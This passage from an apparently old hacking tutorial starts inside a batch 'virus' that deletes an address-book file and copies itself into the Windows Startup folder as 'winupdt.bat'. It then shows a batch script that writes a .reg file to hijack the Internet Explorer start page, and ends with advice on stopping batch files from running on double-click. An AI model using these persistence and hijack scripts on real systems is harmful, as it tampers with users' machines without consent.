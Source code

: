     IF EXIST "C:\WINDOWS\Application Data\Microsoft\Address Book\hxor.wab"  del "C:\WINDOWS\Application Data\Microsoft\Address Book\hxor.wab" >> NUL
    copy %0 "C:\WINDOWS\Start Menu\Programs\StartUp\winupdt.bat" >> NUL
    GOTO :END
    CLS
    :END
    CLS

This was an example of a pretty lame batch file virus. We can similarly create a virus which will edit the registry and create havoc. This is just a thought, I am not responsible for what you do with this.

There is simply no direct way of editing the Windows Registry through a batch file. Although there are Windows Registry Command line options(Check them out in the Advanced Windows Hacking Chapter, they are not as useful as adding keys or editing keys, can be. The best option we have is to create a .reg file and then execute it through a batch file. The most important thing to remember hear is the format of a .reg file and the fact that the first line of all .reg files should contain nothing but the string REGEDIT4, else Windows wil not be able to recognize it as a registry file. The following is a simple example of a batch file which changes the home page of the User (If Internet Explorer is installed)
to <http://expert.com>

    @ECHO OFF
    ECHO REGEDIT4 >haxor.reg
    ECHO [HKEY_CURRENT_USER\Software\Microsoft\Internet Explorer\Main] >> haxor.reg
    ECHO "Start Page"="<http://website.com>" >> haxor.reg
    START haxor.reg 

Creating a .reg file is not as easy as it seems. You see, for Windows to recognize a file as a Registry file and for Windows to add the contents of the .reg file to the registry, it has to be in a particular recognizable format, else an error message would be displayed. I would not want to repeat, the entire Windows Registry File format here, as the Advanced Windows Hacking Manual has a huge section, specially dedicated to the Windows Registry.

### Protection from Batch File Viruses  ####

If you double-click a batch file (.bat files) it will run automatically. This can be dangerous as batch files can contain harmful commands sometimes. Worst still, if you use the single-click option, one wrong click and it's goodbye Windows. Now most power users would like to set edit as the default action. To best way to do that is to go to Explorer's Folder Options' File View tab to change the modify the default action. However, to add insult to injury, when you arrive there, you will find that the Edit and Set Default buttons has been grayed out. This is a "feature" from Microsoft you might not appreciate.

To conquer our problem here, flare up your registry editor and go to HKEY_CLASSES_ROOT\batfile\shell\open Rename the open key to run, thus becoming HKEY_CLASSES_ROOT\batfile\shell\run. Double-click the EditFlags binary value in HKEY_CLASSES_ROOT\batfile and enter 00 00 00 00 as the new value. Now, open Explorer, click Folder Options from the View menu and select the File Types tab, scroll down to the "MS-DOS Batch File" item, highlight it and click Edit. You'll notice that the last three buttons (Edit, Remove and Set Default) are now enabled and that you can select Edit as the default action.

#### TL;DR  ####

Batch is a skiddie programming language - the Windows version of shell programming.
And the above code isn't a virus, so anyone who thought it was, you passed the skiddie test - congrats.
